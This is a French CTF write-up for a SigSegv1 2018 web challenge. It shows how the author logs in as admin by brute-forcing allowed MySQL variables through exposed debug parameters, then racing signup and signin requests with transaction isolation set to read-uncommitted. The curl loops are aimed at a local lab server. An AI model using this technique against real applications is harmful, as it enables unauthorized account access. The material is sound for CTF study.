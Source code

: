 #  SigSegv1 CTF 2018

**Category:** Misc/Web |
**Points:** 500 |
**Solves:** 1 |
**Description:**

> LOL mon pote dit qu'il peut se connecter en tant qu'admin sur mon app.
> Je le crois pas, mais avant d'accepter son challenge, est-ce que tu peux vérifier que c'est bon stp ?

___

## TL;DR


The game. Si t'as pas le temps de lire, reviens demain.

## WRITE-UP

* __Première étape__ : découvrir le chall.

Tout d'abord, on voit que le challenge possède seulement 2 pages:<br>
\- Une page de création de compte (`/signUp`),<br>
\- Une page de login (`/signIn`).

Premier test que j'ai fait : essayer de créer un compte :

```
>>> curl -s http://localhost:8000/signUp -d 'inputName=admin&inputPassword=perte'
{"error": "(u'User creation has been disabled, changes have been canceled.',)"}
```

Well, la création d'utilisateur a été désactivée.
On se dit que le but, ça va être de faire en sorte de pouvoir créer l'utilisateur qu'on veut.


* __Deuxième étape__ : allumer son cerveau

En regardant un peu les deux pages, je vois des commentaires :

```
<!--
30/11/18 - added a stored procedure to add users

BEGIN
    IF (select exists (select 1 from tbl_user where login = p_login)) THEN
        select 'Username exists!';
    ELSE
        START TRANSACTION;
        insert into tbl_user
        (
            login,
            password
        )
        values
        (
            p_login,
            p_password
        );
    END IF;
END$$
DELIMITER ;

--------------------------------------------------------------------------------

01/12/18 - my friend told me not to store passwords as plaintext...
Removed everything from the database and disabled persistence of changes in db until I fix this.
-->


******************


<!--

30/11/18 - added secret form parameters debugVar and debugVal to help debug the app.

-->
```

Ici, il y a deux choses importantes :<br>
\- les 2 paramètres que l'on peut rajouter,<br>
\- le fait que l'admin a désactivé la persistance.

Le message est clair, il semblerait qu'il y ait un rollback qui soit fait.

En ayant ces informations, j'ai testé de faire une race condition en créant l'utilisateur `admin`,
puis me connecter directement juste après, avant que le rollback ne soit fait.
Mais dans ce cas, non seulement je ne me servais pas des paramètres donnés en commentaire, et puis
surtout ... ça ne fonctionnait pas :)




* __Troisième étape__ : utilisation des params + bruteforce

Ce step est assez simple.
J'ai récupéré une bonne partie des variables systèmes de MySQL : 
```
>>> curl -s 'https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html'| awk -F'[<>]' '/server-system.*class="literal/{!arr[$5]++}END{for (k in arr){print k}}' >> all_mysql_sysvar.lst
```

Ca fait une petite liste de presque 300 vars.
```
>>> curl -s http://localhost:8000/signIn -d 'inputName=admin&inputPassword=lel&debugVar=connect_timeout&debugVal=lel'
{"html": "<span>Forbidden variable name!</span>"}
```

Petite surprise, certaines sont interdites : j'ai donc "bruteforcé" pour connaître les vars autorisées.

```
>>> while read VAR; do curl -s http://localhost:8000/signIn -d "inputName=admin&inputPassword=lel&debugVar=$VAR&debugVal=lel" |grep -q Forbidden || echo $VAR ; done < all_mysql_sysvar.lst >> allowed_mysql_vars.lst
>>> wc -l allowed_mysql_vars.lst 
122 allowed_mysql_vars.lst
```

Bien, je me retrouve avec 122 variables à RTFM...
Avec l'idée du challenge, le `rollback`, ça permet de s'orienter vers certaines variables.


* __Dernière étape__ : payload + flag

Je vous invite à lire les liens suivants :
```
https://en.wikipedia.org/wiki/Isolation_(database_systems)
https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_transaction_isolation
https://inshallhack.org/production_debugging_sigsegv1_2018/
```

Le post de Siben sur inshallhack est génial, avec schématisation (wikipedia ¢) des dirty reads.

Après avoir bien RTFM, il ne reste plus qu'à créer le payload.
Ce qu'il faut faire :<br>
\- Créer un user admin/admin,<br>
\- Instantanément, il faut directement faire lire à la DB les changements non commités : `transaction_isolation -> read-uncommitted`,<br>
\- Et on essaye de se connecter ensuite.

En BASH, ça donne simplement ça :

```
>>> while true ; do curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' & \
> curl -s 'http://localhost:8000/signIn' --data 'inputName=admin&inputPassword=admin&debugVar=transaction_isolation&debugVal=read-uncommitted' & \
> curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' ; done
```

Il suffit d'attendre un peu :

`{"gg": "GG! Flag: sigsegv{1s0l4t10n_mY_455}!"}`

* __Conclusion__ :

Un superbe challenge !
Personellement, j'avais jamais trop travaillé sur MySQL de façon approfondie, et j'ai appris
énormément de choses sur le fonctionnement d'une DB (MySQL).
Merci à toi SIben pour l'idée du challenge, de m'avoir fait confiance en me le faisant tester en
"avant-première", avant qu'il soit push sur le SigSev1 CTF.
Et surtout : the game.

Enjoy,<br>
\- [Notfound](https://twitter.com/Notfound404__)
